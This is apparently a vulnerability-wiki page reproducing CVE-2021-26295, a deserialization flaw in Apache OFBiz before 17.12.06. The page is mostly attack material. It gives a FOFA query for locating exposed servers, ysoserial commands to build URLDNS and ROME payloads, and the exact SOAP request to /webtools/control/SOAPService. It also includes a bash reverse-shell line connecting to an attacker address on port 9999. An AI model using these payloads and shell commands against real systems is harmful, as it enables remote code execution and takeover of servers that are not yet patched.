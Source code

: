 ```yaml
---
Title: Apache OFBiz RMI deserialization vulnerability CVE-2021-26295
---
```


# Apache OFBiz RMI deserialization vulnerability CVE-2021-26295

## Vulnerability Description

OFBiz is a Java-based web framework that includes an entity engine, a service engine, and a widget-based UI.

Recently, Apache OFBiz officially released a security update. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache OFBiz < 17.12.06</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBcGFjaGVfT0ZCaXoi">app="Apache_OFBiz"</a-button>
</a-checkbox>

## Vulnerability reappears

Use `ysoserial` to generate deserialized data

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS http://xxx.xxx.xxx.xxx > payload.txt
```

```python
#!/usr/bin/python
#conding=utf8
import binascii
with open('payload.txt', 'rb') as payload_handle:
   content = payload_handle.read()
str_hex = binascii.hexlify(content)
print(str_hex)
```

Check Dnslog verification vulnerability after sending the request packet

```
POST /webtools/control/SOAPService 

<?xml version='1.0' encoding='UTF-8'?><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header/><soapenv:Body><test:clearAllEntityCaches xmlns:test="http://ofbiz.apache.org/service/"><test:cus-obj>dnslog反序列化数据</test:cus-obj></test:clearAllEntityCaches></soapenv:Body></soapenv:Envelope>
```

Rebound Shell can use `ROME deserialization chain`

```shell
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar ROME  "bash -c {echo,xxxxxxxxxxxxxxxxxxxxxxx}|{base64,-d}|{bash,-i}" | xxd|cut -f 2,3,4,5,6,7,8,9 -d " "|tr -d ' '|tr -d '\n'

bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'   base64加密写入然后执行命令
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/c3afc0d1-7dc6-4161-a0fd-901797bf1a31.png)